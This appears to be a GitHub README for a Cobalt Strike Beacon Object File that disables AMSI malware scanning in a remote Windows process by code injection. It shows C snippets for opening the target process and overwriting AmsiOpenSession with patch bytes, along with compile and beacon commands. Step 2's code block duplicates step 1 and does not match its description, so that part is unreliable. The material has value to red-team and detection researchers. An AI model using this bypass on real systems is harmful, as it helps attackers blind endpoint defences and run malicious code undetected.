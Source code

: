 ## Cobalt Strike BOF - Inject AMSI Bypass
Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

#### Running inject-amsiBypass BOF from CobaltStrike 
  ![](runningBof.png)

### What does this do?
##### 1. Use supplied PID to get a handle on a remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/

### Proof of Concept Demo Screenshots
#### Before - Powershell.exe AMSI.AmsiOpenSession
  ![](Before-Amsi-OpenSession.png)

#### After - Powershell.exe AMSI.AmsiOpenSession
  ![](After-AmsiOpenSession.png)

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c inject-amsiBypass.c -o inject-amsiBypass.o
```
### Run from Cobalt Strike Beacon Console
```bash
beacon> inject-amsiBypass <PID>
```
+ Make sure to load the inject-amsiBypass.cna script into Cobalt Strikes Script Manager

### To Do List
+ Check that AMSI.DLL exists in remote process before injection
+ Add other AMSI bypasses to inject
+ Support x86

### Credits / References
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Offensive Security OSEP
+ https://www.offensive-security.com/pen300-osep/
